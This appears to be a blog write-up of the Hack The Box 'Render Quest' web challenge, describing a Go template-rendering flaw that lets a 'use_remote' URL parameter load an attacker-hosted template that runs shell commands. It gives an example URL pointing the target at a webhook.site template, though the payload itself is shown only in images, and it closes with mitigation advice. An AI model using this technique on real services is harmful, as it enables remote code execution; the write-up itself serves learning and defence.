 ```yaml
---
layout: single
classes: #wide
title: "Hack The Box - Render Quest"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Hack The Box]
tags: [burp, web injection, go]
---
```

![title](/assets/images/renderquest/titleImage.png)

<b>Challenge Description</b>:  
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!  

Going into this challenge I had never done 
any of the challenges page. I wanted to see how these were 
different compared to the machine tab. The main difference I saw
between this format and the machines, is you are not connected
directly to the machine. This critical factor posed to be an issue
throughout this box due to my not knowing how to expose my machine
corectly.  

Upon starting this challenge (post install and extraction of the zip)
, you are presented with the layout of the page. Because there was 
an input box I tried all sorts of things from XSS to SQLi. This resulted
in an error message each time. 

# Input Validation Error

Next, I looked over the source code a little further and to my surprise
there was a big input validation error.

![badFN](/assets/images/renderquest/badFunction.png)  

As you can see in the image above, there is no input validation here.
When the server fetches the info, it sends whatever what in that
request directly to the server. This means, when you click the render
button it takes anything in the file, reads it and executes it as a 
shell command.

Now, you might be thinking "It doesn't matter if you can execute it
if the code is never read". This would be true, however on line 126
it allows us to manually set the remote value to true in the url.

![manualRemote](/assets/images/renderquest/manualRemoteSet.png)  

![ifTrue](/assets/images/renderquest/ifRemoteTrue.png)  

So, if use_remote is set to true in the url it will read the remote file
(eg: the template) that is provided to the server.   

Example url: http://83.136.253.251:49423/render?use_remote=true&page=https://webhook.site/2865e172-7114-494e-a961-0859118ac2a8



# Exploitation
Now that we know that there is poor input handling and the 
template we provide will be read we are able to 
take advantage of it. Due to us not having direct connection to the 
machine vpn we have 2 choices. Create a webhook or expose our
own machines ip and port to send the mallicious file. Deciding to go 
with the first option I create a payload using webhook.site and it
looks like this:

![webhook](/assets/images/renderquest/webhook.png)  

With a result of:

![output1](/assets/images/renderquest/output1.png)  

Now all that's needed is to change the payload to get the flag.  

Hehe no spoilers XD

# Explanation Of Why It Works
Im adding this part in so that we can learn together and know what not
to do in order to prevent things like this happening on our own 
networks.  
<b>Reason it worked:</b>
* No input validation when handling user input
* Go hosting a webserver using templates vulnerability 
    - Vulnerability can be found [here](https://docs.fluidattacks.com/criteria/fixes/go/422/)
* Function directly executes bash commands  

<b>How to mitigate:</b>
* Add input validation
* Check for go patches, or get rid of templates all together if no longer needed
* Don't directly execute bash commands within your unsanitzied code